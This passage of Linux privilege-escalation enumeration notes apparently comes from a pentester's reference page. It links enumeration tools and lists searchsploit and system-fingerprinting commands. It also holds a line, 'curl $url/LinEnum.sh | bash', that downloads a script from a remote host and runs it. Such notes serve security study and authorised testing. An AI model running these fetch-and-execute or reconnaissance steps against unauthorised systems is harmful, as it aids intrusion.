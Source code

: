 `ps -U root -u root ux` View all processes started by a certain user \(`root` in this case\)

## Misc

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download **and** execute script \(such as LinEnum.sh\) \[from remote host\]: `curl $url/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit $keyword 

#to pull exploit code:
searchsploit -x $exploit_num
```

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Semi-automated enumeration all-in-one \(use this!\): [nmapAutomator](https://github.com/21y4d/nmapAutomator)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

## Questions to ask:

TODO: Split debian/redhat/BSD commands up into tabs; Clean up code for scripting \($var, etc\) \(issue [\#13](https://github.com/zweilosec/Infosec-Notes/issues/13)\)

### Operating System

What's the distribution type? What version?

```bash
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
```

What's the Kernel version? Is it 32 or 64-bit?

```bash
cat /proc/version   
uname -a
uname -mrs 
rpm -q kernel 
dmesg | grep Linux
ls /boot | grep vmlinuz-
```
